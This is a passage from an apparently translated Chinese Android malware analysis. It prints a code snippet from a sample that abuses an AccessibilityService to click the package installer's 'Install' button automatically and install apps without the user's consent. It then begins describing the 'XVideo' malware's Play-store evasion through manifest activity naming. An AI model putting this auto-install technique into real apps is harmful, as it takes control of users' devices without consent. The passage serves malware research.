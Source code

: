 找到并点击“Install button”（安装按钮）。



```
public class HelpService extends AccessibilityService `{`
  
    private static final CharSequence PACKAGE         = "com.android.packageinstaller;      
   
    @TargetApi(Build.VERSION_CODES.JELLY_BEAN) @Override public void onAccessibilityEvent(final AccessibilityEvent event) `{`
        if(null == event || null == event.getSource()) `{` return; `}`
      


        if(event.getEventType() == AccessibilityEvent.TYPE_WINDOW_STATE_CHANGED &amp;&amp;
                event.getPackageName().equals("com.android.packageinstaller"))`{`
            if(className.endsWith("PackageInstallerActivity"))`{`
                simulationClick(event, "Install");             
            `}`         
        `}`
    `}`

    @TargetApi(Build.VERSION_CODES.JELLY_BEAN) private void simulationClick(AccessibilityEvent event, String text)`{`
        Log.v("click", "simulationClick: "+ text);
        List&lt;AccessibilityNodeInfo&gt; nodeInfoList = event.getSource().findAccessibilityNodeInfosByText(text);
        for (AccessibilityNodeInfo node : nodeInfoList) `{`
            if (node.isClickable() &amp;&amp; node.isEnabled()) `{`
                node.performAction(AccessibilityNodeInfo.ACTION_CLICK);
            `}`
        `}`
    `}`

    @Override public void onInterrupt() `{` `}`
`}`
```



**XVideo恶意软件分析**



接下来我们来分析一下“XVideo”恶意软件，这款恶意软件所作的操作与上述操作类似，唯一的不同是它并没有隐藏安装过程。

这款恶意软件同样实现了一些典型的恶意软件功能，以规避Google Play上的恶意软件检测机制，比如：

1、虽然应用的包名各不相同，但所有activity的名字都采用“pronclub.*”格式。



```
&lt;application android:name=“org.gro.jp.fjksbxcvbcxnnxlsdtApp” …&gt;
&lt;activity android:name=“com.pronclub.GdetailActivity” /&gt;
&lt;activity android:name=“com.pronclub.GwebActivity” /&gt;
&lt;activity android:name=“com.pronclub.GpointActivity” /&gt;
```
